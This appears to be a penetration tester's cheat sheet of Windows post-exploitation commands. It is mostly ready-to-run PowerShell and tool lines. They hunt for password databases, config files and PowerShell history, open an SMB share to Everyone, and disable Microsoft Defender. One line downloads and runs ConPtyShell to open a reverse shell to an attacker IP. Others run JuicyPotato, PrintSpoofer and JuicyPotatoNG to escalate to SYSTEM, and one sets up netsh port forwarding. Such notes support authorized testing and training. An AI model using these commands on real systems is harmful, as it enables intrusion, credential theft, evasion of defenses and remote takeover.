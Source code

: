 # PowerShell 
% Post-Exploitation search 

## PowerShell - search for specific file ending
#platform/windows #target/local #cat:4Kp3n
```
Get-ChildItem -Path C:\<path> -Include *.<file_ending> -File -Force -Recurse -ErrorAction SilentlyContinue
```

## PowerShell - search all .txt & .ini files
#platform/windows #target/local #cat:4Kp3n
```
Get-ChildItem -Path C:\Users\ -Include *.txt,*.ini -File -Force -Recurse -ErrorAction SilentlyContinue
```

## PowerShell - search ALL
#platform/windows #target/local #cat:4Kp3n
```
Get-ChildItem -Path C:\ -Include *.pdf,*.xls,*.xlsx,*.doc,*.docx,*.zip,*.kdbx, -File -Force -Recurse -ErrorAction SilentlyContinue
```
## PowerShell - search ALL but exclude paths/filenames
#platform/windows #target/local #cat:4Kp3n
```
Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*.config,*.ini,*.zip,*.kdbx,*.log -File -Force -Recurse -ErrorAction SilentlyContinue | Where-Object {
    $_.Name -ne "desktop.ini" -and $_.FullName -notmatch '\\Application Data\\' -and $_.FullName -notmatch '\\AppData\\' -and $_.FullName -notmatch '\\Local Settings\\'
}
```

## PowerShell - check PowerShell history
#platform/windows #target/local #cat:4Kp3n
```
cat C:\Users\$env:username\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```


## PowerShell - recursivly search for keyword in files
#platform/windows #target/local #cat:4Kp3n
```
Get-ChildItem -Recurse -Force | Select-String -Pattern '<pattern>'
```

% SMB

## PowerShell - create SMB share
#platform/windows #target/local #cat:4Kp3n
```
New-SmbShare -Name "Share" -Path "<path|C:\Users\Public>" -FullAccess "Everyone"
```
## PowerShell - list SMB shares
#platform/windows #target/local #cat:4Kp3n
```
Get-SmbMapping
```

## PowerShell - remove a SMB share
#platform/windows #target/local #cat:4Kp3n
```
Remove-SmbMapping -RemotePath "\\<ServerName>\share"
```



## PowerShell - get 
#platform/windows #target/local #cat:4Kp3n
```
$env:PATH -split ';'
```

## PowerShell - download file via Invoke-WebRequest
```
iwr -uri http://<ip>:2337/<path>/<file> -Outfile <file>
```

## PowerShell - disable Microsoft Defender
```
Set-MpPreference -DisableRealtimeMonitoring $true
```

% ConPtyShell
## PowerShell - download and execute ConPtyShell
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile IEX(IWR http://<ip>:<port|2337>/Windows/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell <ip> <port|6666>
```

## ConPtyShell - set terminal size to a half screen terminal
```
$width=211; $height=79; $Host.UI.RawUI.BufferSize = New-Object Management.Automation.Host.Size ($width, $height); $Host.UI.RawUI.WindowSize = New-Object -TypeName System.Management.Automation.Host.Size -ArgumentList ($width, $height)
```

## PowerShell - get current terminal size
```
$size = $host.ui.rawui.WindowSize
```

% Windows PrivEsc exploits

## JuicyPotato - escalate to SYSTEM via SetImpersonatePrivileges
```
.\JuicyPotato32.exe -l 1337 -p C:\inetpub\wwwroot\rev.exe -t * -c {F087771F-D74F-4C1A-BB8A-E16ACA9124EA}
```

## PrintSpoofer - escalate to SYSTEM via SetImpersonatePrivileges (Windows 10 and Server 2019)
```
.\PrintSpoofer64.exe -c powershell.exe
```

## JuicyPotatoNG - escalate to SYSTEM via SetImpersonatePrivileges (Windows 11 and Server 2022)
```
.\JuicyPotatoNG.exe -t * -p "C:\Users\public\conptyshell.exe" -a "192.168.45.211 7777"
```



## netsh - create port forward [ADMIN]
```
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.50.64 connectport=22 connectaddress=10.4.50.215
```

## PowerUp.ps1 - invoke all checks
```
Invoke-AllChecks
```